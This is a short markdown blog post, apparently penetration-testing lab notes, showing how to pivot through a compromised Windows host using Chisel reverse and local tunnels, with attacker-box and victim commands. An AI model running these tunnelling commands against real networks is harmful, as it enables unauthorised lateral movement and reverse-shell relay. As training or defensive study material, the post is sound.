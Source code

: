 ```yaml
---
layout: post
title: Pivoting with Chisel
description: Pivoting with Chisel
date: 2022-04-29
Last Updated: 
---
```

<!-- markdown-link-check-disable -->
# Pivoting with Chisel

## Reverse Pivot

(sends traffic back to kali via tunnel)

Kali -> victim -> network host

* Attack host spins up reverse listener
* Victim sets up tunnel back to listener port on attack box and also links between intermediate client and remote target
* Allows connection from Kali (127.0.0.1:8001) via tunnel to port 80 on remote host

On attack box:

```
[root@kali:/r/t/chisel]# ./chisel server -p 8000 -v -reverse
```

On intermediate target:

```
C:\Users\offsec\Documents>chisel.exe client 192.168.119.163:8000 R:8001:172.16.163.5:80
```

![](</assets/images/Reverse_Pivot_1.png>) ![](</assets/images/Reverse_Pivot_2.png>)

## Local Pivot

(sends traffic to client and then back to kali)



Kali > victim < network host

* Attack host spins up listener
* Victim sets up tunnel back to listener port on attack box and also opens listener on localhost
* Hosts can send traffic (rev shell) back to listener on victim which gets directed back to attack host

On attack box:

```
[root@kali:/r/t/chisel]# ./chisel server -p 8000 -v
```

On intermediate target:

```
C:\Users\offsec\Documents>chisel.exe client 192.168.119.163:8000 9001:127.0.0.1:8001
```

On Remote host execute payload with IP of client and it will get forwarded to attack box

![](</assets/images/Local_Pivot_1.png>)![](</assets/images/Local_Pivot_2.png>)![](</assets/images/Local_Pivot_3.png>)

<!-- markdown-link-check-enable -->